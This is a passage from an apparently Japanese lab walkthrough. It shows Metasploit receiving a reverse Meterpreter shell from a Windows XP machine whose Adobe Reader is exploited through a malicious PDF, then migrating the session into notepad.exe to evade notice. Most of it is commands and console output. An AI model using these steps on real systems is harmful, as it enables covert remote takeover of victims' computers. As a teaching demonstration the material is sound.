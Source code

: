  
PDF を開く前に、msfconsole で、攻撃対象コンピューターからのアクセスを待機します。

 
```
msf exploit(adobe_utilprintf) > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp 
PAYLOAD => windows/meterpreter/reverse_tcp 
msf exploit(handler) > set LPORT 4455 
LPORT => 4455 
msf exploit(handler) > set LHOST 10.10.10.80 
LHOST => 10.10.10.80 
msf exploit(handler) > exploit

[*] Started reverse handler on 10.10.10.80:4455 
[*] Starting the payload handler...
```
 
では、PDF を開きます。XP 視点での動作は、Adobe Reader がハングアップしたように見えるだけです。

 
Adobe Reader ハングアップ中。 <br />
![]({{site.assets_url}}2014-08-12-image11.png)

 
一方 msf 側は、XP へ侵入できています。

 
```
msf exploit(handler) > exploit

[*] Started reverse handler on 10.10.10.80:4455 
[*] Starting the payload handler...

[*] Sending stage (769536 bytes) to 10.10.10.90 
[*] Meterpreter session 1 opened (10.10.10.80:4455 -> 10.10.10.90:1094) at 2014-08-11 11:23:59 -0700

meterpreter > sysinfo 
Computer        : XPSP3 
OS              : Windows XP (Build 2600, Service Pack 3). 
Architecture    : x86 
System Language : ja_JP 
Meterpreter     : x86/win32
```
 
実は AcroRd32.exe が 10.10.10.80:4455 とセッションを確立している。 <br />
![]({{site.assets_url}}2014-08-12-image12.png)

 
今の状態は、単純に AcroRd32.exe から msf へ TCP セッションが貼られているだけなので、ユーザーがハングアップに痺れを切らしてプロセスを終了させるとセッションが失われます。その前に攻撃者は、別のプロセスを隠れ蓑にすることが可能です。

 
```
meterpreter > run post/windows/manage/migrate

[*] Running module against XPSP3 
[*] Current server process: AcroRd32.exe (520) 
[*] Spawning notepad.exe process to migrate to 
[+] Migrating to 1512 
[+] Successfully migrated to process 1512
```
 